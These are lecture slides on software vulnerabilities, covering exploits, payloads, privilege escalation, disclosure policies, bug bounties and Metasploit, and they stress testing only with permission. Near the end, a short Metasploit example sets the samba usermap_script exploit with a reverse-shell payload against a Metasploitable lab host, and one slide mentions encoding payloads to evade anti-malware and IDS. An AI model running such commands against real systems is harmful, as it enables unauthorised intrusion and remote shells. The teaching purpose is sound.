



Program Security: Vulnerabilities
Z. Cliffe Schreuders


This content and code (including slides CSS, HTML, and JS) by Z. Cliffe Schreuders is dual licensed under a Creative Commons Attribution-ShareAlike v4.0 International License and GNU Affero General Public License v3.
Lecture recordings are published on the VLE and YouTube.
Programs behaving badly
- Malware: Malicious Software
- Author intends for the program to act maliciously
- Vulnerable software: software with vulnerabilities
- Design or implementation bugs can be exploited by attackers
Software vulnerabilities
- Even when the authors of software are trying to do the right thing, it is easy for a mistake to result in attackers being able to take control of the software
- When this happens attackers can essentially assume the identity of the vulnerable software
Vulnerabilities
- A software vulnerability is a weakness in the security of a program
- Often due to a design decision mistake,
- or an implementation mistake
Exploits
- An exploit is an action (or piece of software that takes an action) that takes advantage of a vulnerability
- For example, causes a buffer overflow or command injection
- The result is the attacker makes the system perform in ways that are not intentionally authorised
- For example: arbitrary code execution, changes to databases, or denial of service

by MAURO CATEB
Exploitation
- Using an exploit
by davidmpacey
Local and remote
- Local vulnerabilities require local access in order to exploit the flaw
- For example, a flaw in MSWord or Adobe Reader
- Remote vulnerabilities can be exploited by interacting over a network
- For example, a flaw in a Web server
- Results in Remote Code Execution (RCE)
by MAURO CATEB
Payloads
- A payload is the malicious code that is consequently run on the target system, if the exploit is successful
Common types of vulnerabilities / payloads
- Information leaks
- Denial of service (DoS)
- Arbitrary code execution: the attacker can run code/commands
- Specific database/shell commands
- The execution of machine code:
For example: shell code (gives the attacker a command prompt), code to add a user to the system, spawn a VNC server, and so on
Bind shell
- The attacker connects to the victim
Bind shell
- Problem: firewalls
Reverse shell

- Solution (for the attacker): reverse shell
Privilege Escalation
- A privilege escalation occurs when an attacker is able to gain elevated access to resources, beyond that which are normally available
- Vertical privilege escalation
- Access to resources for higher privilege users or applications
- Horizontal privilege escalation
- Access to resources for other users or applications
by ojbyrne
Window of vulnerability
- The window of vulnerability is the time between when the vulnerability exists in software until an end user's computer is protected
- Software has bug
- Attacker finds bug (may not tell anyone)
- Software or security vendor finds out about the bug
- A fix is released
- The fix is finally applied to the user's computer
by extranoise
Zero days
- A zero day security vulnerability is a new security problem that has been discovered
- To defend, the vendors have zero days to issue a fix
Vulnerability disclosure
- The way in which vulnerabilities should be disclosed in a topic of heated debate
- Responsible disclosure involves first contacting the affected vendors and giving them time to fix the issue, usually with a time limit before going public
- Full disclosure involves going public with all the technical details of a vulnerability without first giving the vendor an opportunity to fix
Vulnerability reward schemes..


- Google Vulnerability Rewards Program: $500 to $3133.70 (depending on the severity of the bug) for Google Chromium or certain web service security flaws. Google also pay up to $60000 at some events, for suitable bugs.
- Others: Mozilla Security Bug Bounty Program ($500-$3000), Facebook ($500), The Internet Bug Bounty (Adobe Flash, Python, Ruby, PHP, Django, Ruby on Rails, Perl, OpenSSL, Nginx, Apache HTTP Server, and Phabricator), many more...
Vulnerability reward schemes..

- Reward schemes generally require 'responsible disclosure'
- Facebook:
“Responsible Disclosure Policy
If you give us a reasonable time to respond to your report before making any information public and make a good faith effort to avoid privacy violations, destruction of data and interruption or degradation of our service during your research, we will not bring any lawsuit against you or ask law enforcement to investigate you.”
(As of 2012, http://www.facebook.com/whitehat)
Vulnerability reward schemes
- Others such as TippingPoint, Secunia, and iDefense will pay for exploits against popular vendors
- For example, TippingPoint protect their customers (using an IPS) and give the vendors time to fix the bug, then later release the technical details
- Bugcrowd is a crowd-sourced security company, where security researchers sign up to do various security tests, such as looking for vulnerabilities
Project Zero

- In 2014 Google started Project Zero
- Employ many experienced security researchers to look for new vulnerabilities in popular software
Auditing and permission
- Make sure that you have explicit permission before doing any security testing
- “Ethical hacking”, basically means you have legal permission to do a security audit
- Doing security testing without written permission is legally dangerous... You don't want to end up in jail...
- It is more likely to be permitted to test software, rather than services or live servers
- If in doubt, seek legal advice!
Traditional mitigation...
- Updating:
- Keeping software up-to-date so that you have all the vendor-supplied fixes
- Patching:
- Applying changes to software
- Could be provided by a trusted third party
- Could be source or binary changes
More mitigation...
- Vulnerability analysis scanning:
- Checking against databases of known vulnerabilities (automated using tools such as Nessus or manually checking advisories)
- Individual tools and techniques to mitigate specific types of vulnerabilities – more about this later
- Penetration testing...
Metasploit framework (MSF)
- Developed by HD Moore
- The framework is FOSS, with some proprietory interfaces, now owned by Rapid7
- Highly modular: can easily combine different exploits and payloads
- Much more flexible than the manual method of altering exploits programmed in C
Metasploit framework (MSF)
- Includes an extensive library of modules
- Exploits
- Payloads
- Encoding
- Post-exploitation actions
MSF exploits
- MSF contains over 1000 exploits, including:
- OS flaws:
- Windows, Linux, Mac, ...
- Services:
- Apache, IIS, …
- Applications:
- Adobe Reader, IE, Firefox, …
- Web apps:
- some new support
- OS flaws:
MSF payloads
- MSF contains many payloads:
- # msfpayload -l | less
- Most target specific platforms
- bind or reverse shells, VNC, etc
MSF encode
- MSF can encode exploits/payloads to avoid detection
- Alternative instructions
- Encrypt instructions, along with decrypt code
- Similar to how polymorphic viruses avoid detection
- Can also bind and convert payloads to executables
- Lots of encoding methods:
- # msfencode -l
by Frank.Vassen
MSF interfaces
- Msfcli: command line
- Msfconsole: console (very powerful)
- Metasploit Community / Pro: proprietory web interfaces and additional tools
- Armitage: FOSS GUI
Steps of using MSF to exploit
- Specify the exploit to use
- Set options for the exploit (such as the IP address of the computer to attack)
- Choose a payload (this defines what we end up doing on the compromised system)
- Optionally choose encoding to evade security monitoring such as anti-malware, intrusion detection systems (IDS), and so on
- Launch the exploit
Example (vs Metasploitable)
- > use exploit/multi/samba/usermap_script
- > show options
- > set RHOST {Metasploitable-IP-Address}
- > show payloads
- > set PAYLOAD cmd/unix/reverse
- > set LHOST {Your-Kali-IP-Address}
- > set LPORT {Your-Choice-of-Port}
- > check
- > exploit
Malware and vulnerabilities
- Discuss: why will the traditional defence techniques that we have discussed fail to constantly protect end users?
Conclusion
- Malware and software vulnerabilities are two of the most common computer security threats
- In both cases attackers are often able to run malicious code in the context of a process running as an end user (or in worst cases the context of kernel code)
- This can be considered an identity problem, since the program is not necessarily acting for the associated identity and privileges
by miggslives